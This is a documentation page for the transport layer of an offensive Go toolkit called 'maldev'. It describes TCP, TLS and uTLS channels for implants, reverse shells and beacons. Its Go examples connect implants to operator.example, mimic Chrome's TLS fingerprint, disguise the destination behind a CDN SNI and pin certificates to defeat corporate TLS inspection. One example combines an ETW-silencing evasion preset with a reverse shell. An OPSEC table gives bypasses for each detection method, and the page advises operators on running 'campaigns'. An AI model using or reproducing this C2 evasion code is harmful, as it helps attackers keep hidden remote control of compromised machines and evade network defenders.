


# Transport (TCP / TLS / uTLS)

[← c2 index](README.md) · [docs/index](../../index.md)

## TL;DR

Network layer behind every reverse shell, stager, or beacon.
You pick the flavour based on what defenders inspect:

| You're up against… | Use | What it defeats |
|---|---|---|
| Plaintext payload signatures, port-watching IDS | **TLS** ([`Dial`](#tlsconfig)) | DPI sees encrypted bytes only |
| TLS-aware DPI matching server cert SHA-256 | **TLS + cert pinning** | MITM with a re-issued cert fails the pin check |
| JA3/JA4-based handshake fingerprinting (most modern EDR/proxies) | **uTLS** ([`UTLSConfig`](#utlsconfig)) | TLS ClientHello looks byte-for-byte like Chrome / Firefox / iOS Safari |
| Plaintext for testing only | **TCP** ([`TCPConfig`](#tcpconfig)) | Nothing — debug use only |

Pair with [`c2/cert`](https://pkg.go.dev/github.com/oioio-space/maldev/c2/cert)
to generate the operator's mTLS material and pin it on the
implant side.

What this DOES achieve:

- Pluggable: every reverse shell / stager / beacon in maldev
  takes a `transport.Config` so the same payload flips
  between TCP / TLS / uTLS without recompiling.
- JA3/JA4 cover via uTLS — the canonical "implant looks like
  a browser" technique. Burp / mitmproxy can't readily detect.
- Optional certificate pinning by SHA-256 fingerprint —
  catches attempted MITM even when the attacker gets a valid
  cert from a public CA.

What this does NOT achieve:

- **Doesn't hide that an outbound connection happened** —
  netflow logs see "implant.exe → 1.2.3.4:443" regardless of
  TLS. Pair with [`evasion/preset.Stealth`](../evasion/preset.md)
  to silence ETW network providers from this process.
- **uTLS fingerprint freshness** — Chrome / Firefox update
  their ClientHello frequently; an old uTLS preset becomes
  its own fingerprint. Bump go-utls when shipping fresh
  campaigns.
- **No domain fronting / no CDN routing** — operator infra is
  whatever IP the implant connects to. For domain fronting,
  use a CDN that supports SNI rewrite outside this package.

## Primer

Network-layer detection of C2 splits into two camps. The first reads
**bytes** — payload signatures, cleartext shell prompts, beacon
intervals. TLS defeats this layer for any well-behaved configuration.
The second reads **metadata** — TLS handshake fingerprints (JA3/JA4),
certificate properties, SNI patterns, ALPN choices. Go's stdlib TLS
emits a fingerprint that is unmistakably "Go program, not a browser",
and a self-signed cert without a chain to a public CA is its own
flag.

This package addresses both. The `TLS` transport handles encryption
plus optional certificate pinning — the implant refuses to talk to
anyone whose certificate hash does not match a hard-coded value, so
any TLS-inspection middlebox that re-signs traffic with a corporate
CA is dropped. The `UTLS` transport replaces Go's TLS handshake with
[refraction-networking/utls](https://github.com/refraction-networking/utls),
which mimics real browser ClientHello bytes — the network monitor sees
"Chrome 124 connecting to a CDN", not "Go program with a Go-fingerprint
ClientHello".

## How it works



All transports implement the same five-method `Transport` interface:

```go
type Transport interface {
    Connect(ctx context.Context) error
    Read(p []byte) (int, error)
    Write(p []byte) (int, error)
    Close() error
    RemoteAddr() net.Addr
}
```

The `Listener` interface is the operator-side counterpart, used by
`c2/multicat` to accept agents.

### TLS fingerprint pinning



`Config.PinSHA256` (or `WithUTLSFingerprint(...)` for the uTLS
variant) holds the operator's certificate hash. The implant rejects
any certificate whose hash does not match — even if the corporate
TLS-inspection CA is in the system trust store.

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/c2/transport`](https://pkg.go.dev/github.com/oioio-space/maldev/c2/transport) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple

Plain TCP for a localhost or already-tunnelled scenario:

```go
tr := transport.NewTCP("10.0.0.1:4444", 10*time.Second)
if err := tr.Connect(context.Background()); err != nil {
    return err
}
_, _ = tr.Write([]byte("hello"))
```

### Composed (TLS + cert pin)

Operator generates a cert and computes its fingerprint:

```go
import "github.com/oioio-space/maldev/c2/cert"

_ = cert.Generate(cert.DefaultConfig(), "server.crt", "server.key")
fp, _ := cert.Fingerprint("server.crt")
fmt.Println("pin:", fp) // → embed in implant
```

Implant pins it:

```go
tr := transport.NewTLS(
    "operator.example:8443",
    10*time.Second,
    "", "", // no client cert
    transport.WithTLSPin(fp),
)
_ = tr.Connect(context.Background())
```

Any TLS-inspection proxy that re-signs the certificate fails the
pin check.

### Advanced (uTLS with Chrome JA3 + SNI)

```go
tr := transport.NewUTLS(
    "operator.example:443",
    10*time.Second,
    transport.WithJA3Profile(transport.HelloChromeAuto),
    transport.WithSNI("cdn.jsdelivr.net"),
    transport.WithUTLSFingerprint(fp),
)
_ = tr.Connect(context.Background())
```

Network monitor sees a Chrome TLS handshake to a CDN; the SNI hides
the real destination behind a benign-looking name.

### Complex (full stack: cert + uTLS + shell + evasion)

```go
import (
    "context"
    "time"

    "github.com/oioio-space/maldev/c2/shell"
    "github.com/oioio-space/maldev/c2/transport"
    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
)

const operatorPin = "AB:CD:..." // SHA-256 hex

_ = evasion.ApplyAll(preset.Stealth(), nil)

tr := transport.NewUTLS(
    "operator.example:443",
    10*time.Second,
    transport.WithJA3Profile(transport.HelloChromeAuto),
    transport.WithSNI("cdn.jsdelivr.net"),
    transport.WithUTLSFingerprint(operatorPin),
)

sh := shell.New(tr, nil)
_ = sh.Start(context.Background())
sh.Wait()
```

## OPSEC & Detection

| Artefact | Where defenders look |
|---|---|
| Go-fingerprint TLS ClientHello (JA3) | Zeek `ssl.log`, JA3-aware NIDS — bypass with `NewUTLS` + `WithJA3Profile` |
| Self-signed certificate without trusted chain | Network DLP / TLS-inspection logs — bypass by signing through a real CA on the operator side, or accepting the self-signed flag and pinning |
| Unusual SNI / no SNI | Modern NIDS flag absent or randomised SNIs — set `WithSNI` to a plausible CDN host |
| Certificate-pin failure on re-signed traffic | This is the *desired* outcome on the implant side — but the abrupt connection drop is itself a signal |
| Beacon timing / response sizes | Behavioural NIDS clusters periodic short connections — randomise jitter at the shell layer |

**D3FEND counters:**

- [D3-NTA](https://d3fend.mitre.org/technique/d3f:NetworkTrafficAnalysis/)
  — JA3 / SNI / cert-property correlation.
- [D3-DNSTA](https://d3fend.mitre.org/technique/d3f:DNSTrafficAnalysis/)
  — DNS-resolution patterns ahead of C2 connect.
- [D3-NTPM](https://d3fend.mitre.org/technique/d3f:NetworkTrafficPolicyMapping/)
  — egress proxy enforcement.

**Hardening for the operator:** prefer uTLS over plain TLS; pick an
SNI that resolves on the actual CDN and use a matching IP; rotate
certificates between campaigns; combine with [malleable HTTP
profiles](malleable-profiles.md) for traffic that survives even
content inspection.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1071](https://attack.mitre.org/techniques/T1071/) | Application Layer Protocol | TLS / uTLS / malleable HTTP | D3-NTA |
| [T1573](https://attack.mitre.org/techniques/T1573/) | Encrypted Channel | TLS family | D3-NTA |
| [T1573.002](https://attack.mitre.org/techniques/T1573/002/) | Asymmetric Cryptography | mTLS via `c2/cert` | D3-NTA |
| [T1095](https://attack.mitre.org/techniques/T1095/) | Non-Application Layer Protocol | raw TCP | D3-NTA |

## Limitations

- **Pin must travel with the implant.** A hard-coded SHA-256 in the
  binary is recoverable by static analysis. Prefer build-time
  injection via `//go:embed` from a per-campaign cert.
- **uTLS adds binary weight.** ~500 KB of crypto + parser code. For
  shellcode-tier implants, fall back to TLS with pinning.
- **JA3 profiles age.** Browser TLS handshakes evolve; refresh the
  uTLS dependency every few months and verify the chosen profile is
  still indistinguishable from current Chrome / Firefox.
- **Pin failure is loud.** Connection abort with a zero-length read
  is itself a signal. Expect that the campaign is burned the moment
  the corporate proxy starts rewriting traffic.

## See also

- [Reverse shell](reverse-shell.md) — primary consumer of the
  transport layer.
- [Meterpreter](meterpreter.md) — pulls stages over `Transport`.
- [Malleable profiles](malleable-profiles.md) — HTTP-shaped variant
  on top of any transport.
- [Named pipe](namedpipe.md) — local IPC alternative on Windows.
- [`useragent`](https://pkg.go.dev/github.com/oioio-space/maldev/useragent) — pair with HTTP transports for
  realistic User-Agent headers.
- [refraction-networking/utls](https://github.com/refraction-networking/utls)
  — upstream of `NewUTLS`.
